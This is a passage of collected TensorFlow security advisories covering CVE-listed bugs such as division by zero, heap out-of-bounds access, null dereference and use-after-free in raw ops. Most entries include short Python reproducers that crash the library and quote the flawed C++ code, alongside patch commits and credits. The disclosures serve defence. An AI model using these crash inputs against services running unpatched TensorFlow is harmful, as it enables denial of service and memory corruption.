### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-150: Division by 0 in most convolution operators

### CVE Number
CVE-2021-37675

### Impact
Most implementations of convolution operators in TensorFlow are affected by a
division by 0 vulnerability where an attacker can trigger a denial of service
via a crash:

```python
import tensorflow as tf

tf.compat.v1.disable_v2_behavior()
tf.raw_ops.Conv2D(
  input = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32),
  filter = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32),
  strides = [1, 1, 1, 1],
  padding = "SAME")
```

The shape inference
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/framework/common_shape_fns.cc#L577)
is missing several validations before doing divisions and modulo operations.

### Patches
We have patched the issue in GitHub commit
[8a793b5d7f59e37ac7f3cd0954a750a2fe76bad4](https://github.com/tensorflow/tensorflow/commit/8a793b5d7f59e37ac7f3cd0954a750a2fe76bad4).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
## TFSA-2021-177: Use after free / memory leak in `CollectiveReduceV2`

### CVE Number
CVE-2021-41220

### Impact
The [async implementation](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/collective_ops.cc#L604-L615) of `CollectiveReduceV2` suffers from a memory leak and a use after free:

```python
import tensorflow as tf

tf.raw_ops.CollectiveReduceV2(
  input=[],
  group_size=[-10, -10, -10],
  group_key=[-10, -10],
  instance_key=[-10],
  ordering_token=[],
  merge_op='Mul',
  final_op='Div')
```

This occurs due to the asynchronous computation and the fact that objects that have been `std::move()`d from are still accessed:

```cc
auto done_with_cleanup = [col_params, done = std::move(done)]() {
  done();
  col_params->Unref();
};
OP_REQUIRES_OK_ASYNC(c,
                     FillCollectiveParams(col_params, REDUCTION_COLLECTIVE,
                                          /*group_size*/ c->input(1),
                                          /*group_key*/ c->input(2),
                                          /*instance_key*/ c->input(3)),
                     done);
```

Here, `done` is already moved from by the time `OP_REQUIRES_OK_ASYNC` macro needs to invoke it in case of errors. In this case, we get an undefined behavior, which can manifest via crashes, `std::bad_alloc` throws or just memory leaks.

### Patches
We have patched the issue in GitHub commit [ca38dab9d3ee66c5de06f11af9a4b1200da5ef75](https://github.com/tensorflow/tensorflow/commit/ca38dab9d3ee66c5de06f11af9a4b1200da5ef75).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, as this version is the only one that is also affected.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-040: Heap OOB in `QuantizeAndDequantizeV3`

### CVE Number
CVE-2021-29553

### Impact
An attacker can read data outside of bounds of heap allocated buffer in
`tf.raw_ops.QuantizeAndDequantizeV3`:

```python
import tensorflow as tf

tf.raw_ops.QuantizeAndDequantizeV3(
  input=[2.5,2.5], input_min=[0,0], input_max=[1,1], num_bits=[30],
  signed_input=False, range_given=False, narrow_range=False, axis=3)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/11ff7f80667e6490d7b5174aa6bf5e01886e770f/tensorflow/core/kernels/quantize_and_dequantize_op.cc#L237)
does not validate the value of user supplied `axis` attribute before using it to
index in the array backing the `input` argument:

```cc
const int depth = (axis_ == -1) ? 1 : input.dim_size(axis_);
```

### Patches
We have patched the issue in GitHub commit
[99085e8ff02c3763a0ec2263e44daec416f6a387](https://github.com/tensorflow/tensorflow/commit/99085e8ff02c3763a0ec2263e44daec416f6a387).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Aivul Team from Qihoo 360.
## TFSA-2021-052: Null pointer dereference in `EditDistance`

### CVE Number
CVE-2021-29564

### Impact
An attacker can trigger a null pointer dereference in the implementation of
`tf.raw_ops.EditDistance`:

```python
import tensorflow as tf

hypothesis_indices = tf.constant([247, 247, 247], shape=[1, 3], dtype=tf.int64)
hypothesis_values = tf.constant([-9.9999], shape=[1], dtype=tf.float32)
hypothesis_shape = tf.constant([0, 0, 0], shape=[3], dtype=tf.int64)
truth_indices = tf.constant([], shape=[0, 3], dtype=tf.int64)
truth_values = tf.constant([], shape=[0], dtype=tf.float32)
truth_shape = tf.constant([0, 0, 0], shape=[3], dtype=tf.int64)

tf.raw_ops.EditDistance(
    hypothesis_indices=hypothesis_indices, hypothesis_values=hypothesis_values,
    hypothesis_shape=hypothesis_shape, truth_indices=truth_indices,
    truth_values=truth_values, truth_shape=truth_shape, normalize=True)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/79865b542f9ffdc9caeb255631f7c56f1d4b6517/tensorflow/core/kernels/edit_distance_op.cc#L103-L159)
has incomplete validation of the input parameters.

In the above scenario, an attacker causes an allocation of an empty tensor for
the output:

```cc
OP_REQUIRES_OK(ctx, ctx->allocate_output("output", output_shape, &output));
auto output_t = output->flat<float>();
output_t.setZero();
```

Because `output_shape` has 0 elements, the result of `output->flat<T>()` has an
empty buffer, so calling `setZero` would result in a null dereference.

### Patches
We have patched the issue in GitHub commit
[f4c364a5d6880557f6f5b6eb5cee2c407f0186b3](https://github.com/tensorflow/tensorflow/commit/f4c364a5d6880557f6f5b6eb5cee2c407f0186b3).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-041: `CHECK`-failure in `UnsortedSegmentJoin`

### CVE Number
CVE-2021-29552

### Impact
An attacker can cause a denial of service by controlling the values of
`num_segments` tensor argument for `UnsortedSegmentJoin`:

```python
import tensorflow as tf

inputs = tf.constant([], dtype=tf.string)
segment_ids = tf.constant([], dtype=tf.int32)
num_segments = tf.constant([], dtype=tf.int32)
separator = ''

tf.raw_ops.UnsortedSegmentJoin(
  inputs=inputs, segment_ids=segment_ids,
  num_segments=num_segments, separator=separator)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/a2a607db15c7cd01d754d37e5448d72a13491bdb/tensorflow/core/kernels/unsorted_segment_join_op.cc#L92-L93)
assumes that the `num_segments` tensor is a valid scalar:

```cc
const Tensor& num_segments_tensor = context->input(2);
auto num_segments = num_segments_tensor.scalar<NUM_SEGMENTS_TYPE>()();
```

Since the tensor is empty the `CHECK` involved in `.scalar<T>()()` that checks
that the number of elements is exactly 1 will be invalidated and this would
result in process termination.

### Patches
We have patched the issue in GitHub commit
[704866eabe03a9aeda044ec91a8d0c83fc1ebdbe](https://github.com/tensorflow/tensorflow/commit/704866eabe03a9aeda044ec91a8d0c83fc1ebdbe).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2020-018: Heap buffer overflow due to invalid indices in SparseCountSparseOutput

### CVE Number
CVE-2020-15198

### Impact
The `SparseCountSparseOutput` implementation does not validate that the input
arguments form a valid sparse tensor. In particular, there is no validation that
the `indices` tensor has the same shape as the `values` one. The values in these
tensors are always [accessed in
parallel](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/kernels/count_ops.cc#L193-L195):
```cc
    for (int idx = 0; idx < num_values; ++idx) {
      int batch = is_1d ? 0 : indices_values(idx, 0);
      const auto& value = values_values(idx);
      // ...
    }
```

Thus, a shape mismatch can result in accesses outside the bounds of heap
allocated buffers.

### Vulnerable Versions
TensorFlow 2.3.0.

### Patches
We have patched the issue in
[3cbb917b4714766030b28eba9fb41bb97ce9ee02](https://github.com/tensorflow/tensorflow/commit/3cbb917b4714766030b28eba9fb41bb97ce9ee02)
and will release a patch release.

We recommend users to upgrade to TensorFlow 2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been discovered through a variant analysis of [a
vulnerability reported by members of the Aivul Team from Qihoo
360](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-015.md).
## TFSA-2020-012: Segfault by calling session-only ops in eager mode

### CVE Number
CVE-2020-15204

### Impact
In eager mode, TensorFlow does not set the session state. Hence, calling
`tf.raw_ops.GetSessionHandle` or `tf.raw_ops.GetSessionHandleV2` results in a
[null pointer
dereference](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/kernels/session_ops.cc#L45):
```cc
  int64 id = ctx->session_state()->GetNewId();
```

In the above snippet, in eager mode, `ctx->session_state()` returns `nullptr`.
Since code immediately dereferences this, we get a segmentation fault.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in
[9a133d73ae4b4664d22bd1aa6d654fec13c52ee1](https://github.com/tensorflow/tensorflow/commit/9a133d73ae4b4664d22bd1aa6d654fec13c52ee1)
and will release patch releases for all versions between 1.15 and 2.3.

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-187: FPE in convolutions with zero size filters

### CVE Number
CVE-2021-41209

### Impact
The [implementations for convolution operators](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/conv_ops.cc) trigger a division by 0 if passed empty filter tensor arguments.

### Patches
We have patched the issue in GitHub commit [f2c3931113eaafe9ef558faaddd48e00a6606235](https://github.com/tensorflow/tensorflow/commit/f2c3931113eaafe9ef558faaddd48e00a6606235).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-025: Heap buffer overflow in `QuantizedResizeBilinear`

### CVE Number
CVE-2021-29537

### Impact
An attacker can cause a heap buffer overflow in `QuantizedResizeBilinear` by
passing in invalid thresholds for the quantization:

```python
import tensorflow as tf

images = tf.constant([], shape=[0], dtype=tf.qint32)
size = tf.constant([], shape=[0], dtype=tf.int32)
min = tf.constant([], dtype=tf.float32)
max = tf.constant([], dtype=tf.float32)

tf.raw_ops.QuantizedResizeBilinear(images=images, size=size, min=min, max=max, align_corners=False, half_pixel_centers=False)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/50711818d2e61ccce012591eeb4fdf93a8496726/tensorflow/core/kernels/quantized_resize_bilinear_op.cc#L705-L706)
assumes that the 2 arguments are always valid scalars and tries to access the
numeric value directly:

```cc
const float in_min = context->input(2).flat<float>()(0);
const float in_max = context->input(3).flat<float>()(0);
```

However, if any of these tensors is empty, then `.flat<T>()` is an empty buffer
and accessing the element at position 0 results in overflow.

### Patches
We have patched the issue in GitHub commit
[f6c40f0c6cbf00d46c7717a26419f2062f2f8694](https://github.com/tensorflow/tensorflow/commit/f6c40f0c6cbf00d46c7717a26419f2062f2f8694).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
## TFSA-2021-102: Interpreter crash from `tf.io.decode_raw`

### CVE Number
CVE-2021-29614

### Impact
The implementation of `tf.io.decode_raw` produces incorrect results and crashes
the Python interpreter when combining `fixed_length` and wider datatypes.

```python
import tensorflow as tf

tf.io.decode_raw(tf.constant(["1","2","3","4"]), tf.uint16, fixed_length=4)
```

The [implementation of the padded
version](https://github.com/tensorflow/tensorflow/blob/1d8903e5b167ed0432077a3db6e462daf781d1fe/tensorflow/core/kernels/decode_padded_raw_op.cc)
is buggy due to a confusion about pointer arithmetic rules.

First, the code
[computes](https://github.com/tensorflow/tensorflow/blob/1d8903e5b167ed0432077a3db6e462daf781d1fe/tensorflow/core/kernels/decode_padded_raw_op.cc#L61)
the width of each output element by dividing the `fixed_length` value to the
size of the type argument:

```cc
int width = fixed_length / sizeof(T);
```

The `fixed_length` argument is also used to determine the [size needed for the
output
tensor](https://github.com/tensorflow/tensorflow/blob/1d8903e5b167ed0432077a3db6e462daf781d1fe/tensorflow/core/kernels/decode_padded_raw_op.cc#L63-L79):

```cc
TensorShape out_shape = input.shape();
out_shape.AddDim(width);
Tensor* output_tensor = nullptr;
OP_REQUIRES_OK(context, context->allocate_output("output", out_shape, &output_tensor));

auto out = output_tensor->flat_inner_dims<T>();
T* out_data = out.data();
memset(out_data, 0, fixed_length * flat_in.size());
```

This is followed by [reencoding
code](https://github.com/tensorflow/tensorflow/blob/1d8903e5b167ed0432077a3db6e462daf781d1fe/tensorflow/core/kernels/decode_padded_raw_op.cc#L85-L94):

```cc
for (int64 i = 0; i < flat_in.size(); ++i) {
  const T* in_data = reinterpret_cast<const T*>(flat_in(i).data());

  if (flat_in(i).size() > fixed_length) {
    memcpy(out_data, in_data, fixed_length);
  } else {
    memcpy(out_data, in_data, flat_in(i).size());
  }
  out_data += fixed_length;
}
```

The erroneous code is the last line above: it is moving the `out_data` pointer
by `fixed_length * sizeof(T)` bytes whereas it only copied at most
`fixed_length` bytes from the input. This results in parts of the input not
being decoded into the output.

Furthermore, because the pointer advance is far wider than desired, this quickly
leads to writing to outside the bounds of the backing data. This OOB write leads
to interpreter crash in the reproducer mentioned here, but more severe attacks
can be mounted too, given that this gadget allows writing to periodically placed
locations in memory.

### Patches
We have patched the issue in GitHub commit
[698e01511f62a3c185754db78ebce0eee1f0184d](https://github.com/tensorflow/tensorflow/commit/698e01511f62a3c185754db78ebce0eee1f0184d).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.
## TFSA-2020-024: Memory leak in `dlpack.to_dlpack`

### CVE Number
CVE-2020-15192

### Impact
If a user passes a list of strings to `dlpack.to_dlpack` there is a memory leak
following an expected [validation failure](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/c/eager/dlpack.cc#L100-L104):
```cc
      status->status = tensorflow::errors::InvalidArgument(
          DataType_Name(static_cast<DataType>(data_type)),
          " is not supported by dlpack");
```

The allocated memory is
[from](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/c/eager/dlpack.cc#L256):
```cc
  auto* tf_dlm_tensor_ctx = new TfDlManagedTensorCtx(tensor_ref);
```

The issue occurs because the `status` argument during validation failures [is not
properly checked](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/c/eager/dlpack.cc#L265-L267):
```cc
  dlm_tensor->dl_tensor.data = TFE_TensorHandleDevicePointer(h, status);
  dlm_tensor->dl_tensor.dtype = GetDlDataType(data_type, status);
```

Since each of the above methods can return an error status, the `status` value
must be checked before continuing.

### Vulnerable Versions
TensorFlow 2.2.0, 2.3.0.

### Patches
We have patched the issue in
[22e07fb204386768e5bcbea563641ea11f96ceb8](https://github.com/tensorflow/tensorflow/commit/22e07fb204386768e5bcbea563641ea11f96ceb8)
and will release a patch release for all affected versions.

We recommend users to upgrade to TensorFlow 2.2.1 or 2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been discovered through a variant analysis of [a
vulnerability reported by members of the Aivul Team from Qihoo
360](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-023.md).
## TFSA-2021-048: Heap buffer overflow in `RaggedTensorToTensor`

### CVE Number
CVE-2021-29560

### Impact
An attacker can cause a heap buffer overflow in
`tf.raw_ops.RaggedTensorToTensor`:

```python
import tensorflow as tf

shape = tf.constant([10, 10], shape=[2], dtype=tf.int64)
values = tf.constant(0, shape=[1], dtype=tf.int64)
default_value = tf.constant(0, dtype=tf.int64)
l = [849, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
row = tf.constant(l, shape=[5, 43], dtype=tf.int64)
rows = [row]
types = ['ROW_SPLITS']

tf.raw_ops.RaggedTensorToTensor(
    shape=shape, values=values, default_value=default_value,
    row_partition_tensors=rows, row_partition_types=types)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/d94227d43aa125ad8b54115c03cece54f6a1977b/tensorflow/core/kernels/ragged_tensor_to_tensor_op.cc#L219-L222)
uses the same index to access two arrays in parallel:

```cc
for (INDEX_TYPE i = 0; i < row_split_size - 1; ++i) {
  INDEX_TYPE row_length = row_split(i + 1) - row_split(i);
  INDEX_TYPE real_length = std::min(output_size, row_length);
  INDEX_TYPE parent_output_index_current = parent_output_index[i];
  ...
}
```

Since the user controls the shape of the input arguments, an attacker could
trigger a heap OOB access when `parent_output_index` is shorter than
`row_split`.

### Patches
We have patched the issue in GitHub commit
[a84358aa12f0b1518e606095ab9cfddbf597c121](https://github.com/tensorflow/tensorflow/commit/a84358aa12f0b1518e606095ab9cfddbf597c121).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-145: Reference binding to nullptr in map operations

### CVE Number
CVE-2021-37671

### Impact
An attacker can cause undefined behavior via binding a reference to null pointer
in `tf.raw_ops.Map*` and `tf.raw_ops.OrderedMap*` operations:

```python
import tensorflow as tf

tf.raw_ops.MapPeek(
  key=tf.constant([8],dtype=tf.int64),
  indices=[],
  dtypes=[tf.int32],
  capacity=8,
  memory_limit=128)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/map_stage_op.cc#L222-L248)
has a check in place to ensure that `indices` is in ascending order, but does
not check that `indices` is not empty.

### Patches
We have patched the issue in GitHub commit
[532f5c5a547126c634fefd43bbad1dc6417678ac](https://github.com/tensorflow/tensorflow/commit/532f5c5a547126c634fefd43bbad1dc6417678ac).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-014: Division by 0 in `Conv2DBackpropInput`

### CVE Number
CVE-2021-29525

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.Conv2DBackpropInput`:

```python
import tensorflow as tf

input_tensor = tf.constant([52, 1, 1, 5], shape=[4], dtype=tf.int32)
filter_tensor = tf.constant([], shape=[0, 1, 5, 0], dtype=tf.float32)
out_backprop = tf.constant([], shape=[52, 1, 1, 0], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropInput(input_sizes=input_tensor, filter=filter_tensor,
                               out_backprop=out_backprop, strides=[1, 1, 1, 1],
                               use_cudnn_on_gpu=True, padding='SAME',
                               explicit_paddings=[], data_format='NHWC',
                               dilations=[1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/b40060c9f697b044e3107917c797ba052f4506ab/tensorflow/core/kernels/conv_grad_input_ops.h#L625-L655) does a division by a quantity that is controlled by the caller:

```cc
  const size_t size_A = output_image_size * dims.out_depth;
  const size_t size_B = filter_total_size * dims.out_depth;
  const size_t size_C = output_image_size * filter_total_size;
  const size_t work_unit_size = size_A + size_B + size_C;
  ...
  const size_t shard_size =
      use_parallel_contraction ? 1 :
      (target_working_set_size + work_unit_size - 1) / work_unit_size;
```

### Patches
We have patched the issue in GitHub commit
[2be2cdf3a123e231b16f766aa0e27d56b4606535](https://github.com/tensorflow/tensorflow/commit/2be2cdf3a123e231b16f766aa0e27d56b4606535).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-116: Heap OOB in `RaggedGather`

### CVE Number
CVE-2021-37641

### Impact
If the arguments to `tf.raw_ops.RaggedGather` don't determine a valid ragged
tensor code can trigger a read from outside of bounds of heap allocated buffers.

```python
import tensorflow as tf

tf.raw_ops.RaggedGather(
  params_nested_splits = [0,0,0],
  params_dense_values = [1,1],
  indices = [0,0,9,0,0],
  OUTPUT_RAGGED_RANK=0)
```

In debug mode, the same code triggers a `CHECK` failure.

The
[implementation](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/ragged_gather_op.cc#L70)
directly reads the first dimension of a tensor shape before checking that said
tensor has rank of at least 1 (i.e., it is not a scalar). Furthermore, the
implementation does not check that the list given by `params_nested_splits` is
not an empty list of tensors.

### Patches
We have patched the issue in GitHub commit
[a2b743f6017d7b97af1fe49087ae15f0ac634373](https://github.com/tensorflow/tensorflow/commit/a2b743f6017d7b97af1fe49087ae15f0ac634373).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-166: Use after free and segfault in shape inference functions

### CVE Number
CVE-2021-37690

### Impact
When running shape functions, some functions (such as `MutableHashTableShape`) produce extra output information in the form of a `ShapeAndType` struct. The shapes embedded in this struct are owned by an inference context that is cleaned up almost immediately; if the upstream code attempts to access this shape information, it can trigger a segfault.

`ShapeRefiner` is mitigating this for normal output shapes by cloning them (and thus putting the newly created shape under ownership of an inference context that will not die), but we were not doing the same for shapes and types. This commit fixes that by doing similar logic on output shapes and types.

### Patches
We have patched the issue in GitHub commit [ee119d4a498979525046fba1c3dd3f13a039fbb1](https://github.com/tensorflow/tensorflow/commit/ee119d4a498979525046fba1c3dd3f13a039fbb1).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.
## TFSA-2021-015: Division by 0 in `Conv2D`

### CVE Number
CVE-2021-29526

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.Conv2D`:

```python
import tensorflow as tf

input = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)
filter = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)

strides = [1, 1, 1, 1]
padding = "SAME"

tf.raw_ops.Conv2D(input=input, filter=filter, strides=strides, padding=padding)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/988087bd83f144af14087fe4fecee2d250d93737/tensorflow/core/kernels/conv_ops.cc#L261-L263) does a division by a quantity that is controlled by the caller:

```cc
  const int64 patch_depth = filter.dim_size(2);
  if (in_depth % patch_depth != 0) { ... }
```

### Patches
We have patched the issue in GitHub commit
[b12aa1d44352de21d1a6faaf04172d8c2508b42b](https://github.com/tensorflow/tensorflow/commit/b12aa1d44352de21d1a6faaf04172d8c2508b42b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
## TFSA-2021-086: Division by zero in TFLite's implementation of `SVDF`

### CVE Number
CVE-2021-29598

### Impact
The implementation of the `SVDF` TFLite operator is [vulnerable to a
division by zero
error](https://github.com/tensorflow/tensorflow/blob/7f283ff806b2031f407db64c4d3edcda8fb9f9f5/tensorflow/lite/kernels/svdf.cc#L99-L102):

```cc
const int rank = params->rank;
...
TF_LITE_ENSURE_EQ(context, num_filters % rank, 0);
```

An attacker can craft a model such that `params->rank` would be 0.

### Patches
We have patched the issue in GitHub commit
[6841e522a3e7d48706a02e8819836e809f738682](https://github.com/tensorflow/tensorflow/commit/6841e522a3e7d48706a02e8819836e809f738682).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-077: Division by zero in TFLite's implementation of `TransposeConv`

### CVE Number
CVE-2021-29588

### Impact
The optimized implementation of the `TransposeConv` TFLite operator is [vulnerable to
a division by zero
error](https://github.com/tensorflow/tensorflow/blob/0d45ea1ca641b21b73bcf9c00e0179cda284e7e7/tensorflow/lite/kernels/internal/optimized/optimized_ops.h#L5221-L5222):

```cc
int height_col = (height + pad_t + pad_b - filter_h) / stride_h + 1;
int width_col = (width + pad_l + pad_r - filter_w) / stride_w + 1;
```

An attacker can craft a model such that `stride_{h,w}` values are 0. Code
calling this function must validate these arguments.

### Patches
We have patched the issue in GitHub commit
[801c1c6be5324219689c98e1bd3e0ca365ee834d](https://github.com/tensorflow/tensorflow/commit/801c1c6be5324219689c98e1bd3e0ca365ee834d).

